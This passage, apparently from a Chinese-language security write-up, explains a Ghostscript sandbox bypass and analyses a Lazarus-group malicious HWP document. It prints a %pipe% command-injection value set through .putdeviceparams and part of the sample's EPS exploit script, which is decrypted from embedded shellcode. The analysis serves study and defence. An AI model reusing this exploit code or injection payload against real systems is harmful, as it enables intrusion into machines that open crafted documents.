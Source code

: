 可以看到偏移`0x3e8`处值为1(另外两处偏移应该是针对其他系统或版本)。`LockSafetyParams`属性见`gx_device_s`结构(位于\base\gxdevcli.h)。

最后通过`.putdeviceparams`(实现位于/psi/zdevice.c)设置`/OutputFile`为`(%pipe%echo vulnerable > /dev/tty)`，`.outputpage`完成调用。

## 0x03 Lazarus组织利用样本分析

#### 0x03.1 样本1

> 样本名称：라자루스_에어컨계약.hwp
> 
> MD5：EC0C543675374A0EE9A83A4D55CA1A6C

使用HwpScan2打开文档，可以看到其中的PS脚本：

![图片29 PS脚本](https://s1.ax1x.com/2020/04/27/JfwGtO.png)

导出解压后的PS脚本，其中`Y101`变量存储加密后Shellcode，直接改写该脚本将`Y101`变量解密并写入一EPS文件中：

![图片30 解密Shellcode](https://s1.ax1x.com/2020/04/27/Jfwn1J.png)

EPS脚本中有如下语句：

```
label13 label10 aload 

/label82 true def 
/label83 0 def 

{ 
	.eqproc 
	/label84 true def 
	/label69 0 def 
	label6 										
	{ 
		/label84 true def 
		/label3 label7 label69 get def 			  
		/label85 label3 length 16#20 sub def 	
		label3 label85 get 
		{ 	
			label84 
			{ /label84 false def } 
			{ /label84 true def exit } 
			ifelse 
		} 
		repeat 
		label84 
			{ /label82 false def exit } 
		if 
		/label69 label69 1 add def 
	} 
	repeat 
	label84 
		{ /label82 false def exit } 
	if 
	/label83 label83 1 add def 
} 
loop 

label82 
	{ quit } 
	{ } 
ifelse 

label2 0 label2 
label3 label85 16#18 add 16#7E put 
```